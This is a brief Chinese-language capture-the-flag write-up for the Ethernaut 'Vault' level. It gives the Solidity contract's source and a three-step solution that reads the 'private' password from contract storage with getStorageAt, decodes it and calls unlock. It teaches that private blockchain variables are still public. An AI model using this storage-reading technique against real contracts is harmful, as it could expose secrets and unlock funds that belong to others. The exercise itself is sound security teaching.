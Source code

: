 # Ethernaut CTF Writeup

## Level 8 Vault

> 題目: https://ethernaut.openzeppelin.com/level/0x5fFa62f6A01248A40C9B2857BdF6028b75d71693

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

過關條件: 

- 打開金庫(Vault)

解法：

- 由於區塊鏈的公開透明特性，可以直接從合約的 storage 取得這些私有變數值 `web3.eth.getStorageAt(contract.address, 1)`
    - 解碼取得 password 值 `web3.utils.hexToAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")`
    - Exploit `contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")`

Takeaways

- 將一個變數設成私用變數(private variable)，只能保證這個變數不被其他合約存取。設成私用的(private)狀態變數和本地變數，還是可以被公開的存取(publicly access)。